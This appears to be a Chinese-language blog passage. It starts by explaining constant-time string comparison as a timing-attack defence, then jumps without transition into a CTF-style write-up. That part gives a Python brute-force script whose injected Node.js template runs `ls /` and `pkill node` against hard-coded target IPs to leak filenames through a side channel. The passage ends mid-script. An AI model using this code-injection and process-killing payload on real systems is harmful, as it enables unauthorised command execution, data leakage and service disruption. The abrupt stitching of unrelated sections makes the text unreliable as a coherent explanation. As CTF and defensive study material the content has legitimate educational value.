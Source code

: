 这个函数的功能是比较两个字符串是否相等，首先长度不等结果肯定不等，立即返回这个很好理解。再看看后面的，稍微动下脑筋，转弯下也能明白这其中的门道：通过异或操作`1^1=0`、`1^0=1`、`0^0=0`，来比较每一位，如果每一位都相等的话，两个字符串肯定相等，最后存储累计异或值的变量`equal`必定为`0`，否则为`1`。但是
从效率角度上讲，难道不是应该只要中途发现某一位的结果不同了(即为`1`)就可以立即返回两个字符串不相等了吗，类似与下边这样。

```java
for (int i = 0; i < a.length(); i++) {
    if (a.charAt(i) ^ b.charAt(i) != 0) // or a.charAt(i) != b.charAt(i)
        return false;
}
```
以前知道通过延迟计算等手段来提高效率的手段，但这种已经算出结果却延迟返回的，还是头一回，结合方法名称`safeEquals`可能知道些眉目，与安全有关，其实`JDK`中也有类似的方法，例如`java.security.MessageDigest`，看注释知道了目的是为了用常量时间复杂度进行比较。

```java
public static boolean isEqual(byte[] digesta, byte[] digestb) {
   if (digesta == digestb) return true;
   if (digesta == null || digestb == null) {
       return false;
   }
   if (digesta.length != digestb.length) {
       return false;
   }

   int result = 0;
   // time-constant comparison
   for (int i = 0; i < digesta.length; i++) {
       result |= digesta[i] ^ digestb[i];
   }
   return result == 0;
}
```

实际上，这么做是为了防止计时攻击，计时攻击是边信道攻击(或称侧信道攻击，`Side Channel Attack`，简称`SCA`) 的一种，边信道攻击是一种针对软件或硬件设计缺陷，走歪门邪道的一种攻击方式。  

然后表哥们就玩了一个花里胡哨的侧信道方案，首先既然无法出网，就需要知道一个服务器的状态，而表哥们选用的服务器状态，就是这个`node`进程是否还活着，整体思路就是，首先在根目录去读文件，`flag`大概率是在文件中的，通过执行`ls /`获得一个输出的字符串，然后我我们传递进去一段代码，如果这个字符与我们传进去的字符相同，就杀死这个`node`进程，然后我们就访问不到服务了，然后就可以断定这个字符是正确的，而传入的字符就只能一个个遍历了。首先我们需要遍历出来存放`flag`的文件，直接上代码，这实际上也算是一种爆破方案，在尝试的过程中也会出现一些状况，因为靶机的`node`重启太快了刚杀死就重启了，所以需要不少人工因素查看，有时候会顿一下多看几次都在那里停顿大概率就是那个字符了了，多看几遍可以排除下网络波动因素。

```python
# blast_file_name.py 爆破文件名

import requests
from urllib import parse
import base64
from time import sleep
import string

# url = "http://39.106.69.116:30001/"
url = "http://39.106.34.228:30001/"

template = '''
    const exec = require("child_process").exec;
    const fs = require("fs");
    const cmd = "ls /";

    exec(cmd, function(error, stdout, stderr) {{ 
        if(stdout[{0}]==="{1}" && stdout.substr(0,{0})==="{2}"){{
            exec("pkill node");
        }}
    }});
'''


def remote_exec(command):
```